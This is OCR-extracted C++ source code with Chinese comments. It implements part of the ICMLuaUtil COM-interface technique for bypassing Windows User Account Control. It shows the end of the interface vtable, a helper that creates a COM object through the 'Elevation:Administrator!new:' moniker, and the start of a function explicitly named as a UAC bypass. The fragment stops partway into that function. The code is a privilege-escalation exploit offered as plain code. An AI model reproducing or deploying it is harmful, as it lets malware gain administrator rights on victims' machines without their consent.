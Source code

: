 ```cpp
    HRESULT(STDMETHODCALLTYPE* Method14)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method15)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method16)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method17)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method18)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method19)(
        __RPC__in ICMLuaUtil* This);

    HRESULT(STDMETHODCALLTYPE* Method20)(
        __RPC__in ICMLuaUtil* This);
    END_INTERFACE
} *PICMLuaUtilVtbl;

interface ICMLuaUtil
{
    CONST_VTBL struct ICMLuaUtilVtbl* lpVtbl;
};

// 以管理员权限创建COM对象 
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

    // 将CLSID转换为字符串
	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	
    // 创建绑定名称
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	
    // 初始化BIND_OPTS3结构
    memset(&bo, 0, sizeof(bo));
	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

    // 创建COM对象
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

// 绕过UAC的函数
BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable, LPCTSTR szArg)
{   
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;
```